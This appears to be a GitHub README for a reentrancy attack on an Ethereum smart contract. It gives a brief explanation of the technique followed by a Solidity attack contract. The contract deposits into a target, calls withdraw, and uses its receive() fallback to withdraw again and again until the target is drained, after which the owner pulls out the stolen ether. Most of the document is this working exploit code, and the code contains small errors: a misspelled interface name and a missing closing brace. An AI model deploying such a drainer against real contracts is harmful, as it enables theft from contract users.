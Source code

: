 # reentrancy-attack
shocase of reentrancy attack 
A reentrancy attack is essentially us creating another smart contract to interact with the target contract. We first send an amount of eth to it and in the same function withdraw. 
Afterwards we withdraw again before the target contract has time to process the transaction. In the process we need a fallback function to use within the time frame of sending money and receiving money.
We use this fallback function so we can restart the process and the target contract fails to update the balance, allowing us to withdraw funds which do not belong to us.



interface reentancy {
    function donate(address _to) external payable;
    function withdraw(uint _amount) external;
}

contract attack {
    address public owner;
    reentancy targetContract;
    uint targetValue = 1000000000000000;

    constructor(address _targetAddr) public {
        targetContract = reentrancy(_targetAddr);
        owner = msg.sender;
    }

    function balance() public view returns (uint) {
        return address(this).balance;
    }

    function doublefunction() public payable {
        require(msg.value >= targetValue);
        targetContract.donate.value(msg.value)(address(this));
        targetContract.withdraw(msg.value);
    }

    function withdrawAll() public returns (bool) {
        require(msg.sender == owner, "");
        uint totalBalance = address(this).balance;
        (bool sent, ) = msg.sender.call.value(totalBalance)("");
        require(sent, "");
        return sent;
    }

    receive() external payable {
        uint targetBalance = address(targetContract).balance;
        if (targetBalance >= targetValue) {
          targetContract.withdraw(targetValue);
        }
    }
